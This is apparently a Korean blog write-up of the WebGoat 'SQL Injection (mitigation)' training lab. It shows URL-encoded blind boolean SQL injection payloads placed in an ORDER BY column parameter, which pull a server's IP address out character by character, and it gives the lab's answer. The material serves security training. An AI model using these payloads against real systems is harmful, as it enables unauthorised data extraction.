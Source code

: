 ```yaml
---
layout: post
title: WebGoat - SQL Injection (mitigation)
date: 2021-01-12 15:00:00 +0900
category: Web_Hacking
---
```


# WebGoat - SQL Injection (mitigation)

#### ORDER BY절을 이용하여 SQL Injection을 시도하고, "webgoat-prd" 서버의 IP 주소 알아내기 (IP주소는 xxx.130.219.202)

<br/>

> SQL Injection을 방어하기 위해서는 사용자의 입력값을 항상 의심하고, 악성 행위에 대비할 수 있도록 입력 값을 적절하게 필터링해야 한다.

<br/>

화살표를 누르니 오름차순으로 정렬되는 것을 알 수 있고, 이는 내부에서 ORDER BY 절을 사용하고 있다는 뜻이다. 

Burp Suite를 통해 보면 GET 방식으로 통신하고 column 파라미터를 통해 데이터를 전송하고 있다.

![webgoat_sqli_mit1](/public/img/webgoat_sqli_mit1.PNG)

![webgoat_sqli_mit2](/public/img/webgoat_sqli_mit2.PNG)

<br/>

SQL 문을 다음처럼 예상할 수 있다.

```shell
SELECT ??? from servers WHERE ??? ORDER BY ???
```

<br/>

ORDER BY 절에 들어갈 아래 내용을 columns 파라미터를 이용해 서버로 전송해보자. 여기서 주의해야 할 점은 전송할 때 인코딩을 해주어야 한다는 것이다.

```shell
(case when length('test')=4 then id else hostname end)
(case+when+length('test')%3d4+then+id+else+hostname+end)
```

![webgoat_sqli_mit3](/public/img/webgoat_sqli_mit3.PNG)

![webgoat_sqli_mit4](/public/img/webgoat_sqli_mit4.PNG)

<br/>

내용을 참->거짓으로 변경하면 결과가 다르다는 것을 알 수 있다.

```shell
(case+when+length('test')%3d3+then+id+else+hostname+end)
```

![webgoat_sqli_mit5](/public/img/webgoat_sqli_mit5.PNG)

![webgoat_sqli_mit6](/public/img/webgoat_sqli_mit6.PNG)

<br/>

이러한 점을 이용하여 아래와 같이 내용을 변경해서 정답을 찾아보자.

```shell
(case+when+exists(SELECT+*+FROM+servers+WHERE+hostname%3d'webgoat-prd'+AND+substr(ip,1,1)%3d'1')+then+id+else+hostname+end)
```

<br/>

내용이 참일때의 결과가 나오는 것을 보니 'webgoat-prd'가 존재하고, IP주소의 첫 번째 숫자가 '1'이라는 것을 알 수 있다.

![webgoat_sqli_mit7](/public/img/webgoat_sqli_mit7.PNG)

![webgoat_sqli_mit8](/public/img/webgoat_sqli_mit8.PNG)

<br/>

다음과 같은 방식을 반복하면 두 번째 숫자와 세 번째 숫자는 각각 '0', '4'라는 것을 알 수 있다.

결론적으로 IP주소는 '104.130.219.202' 이고, 입력해보면 성공이다.

![webgoat_sqli_mit9](/public/img/webgoat_sqli_mit9.PNG)

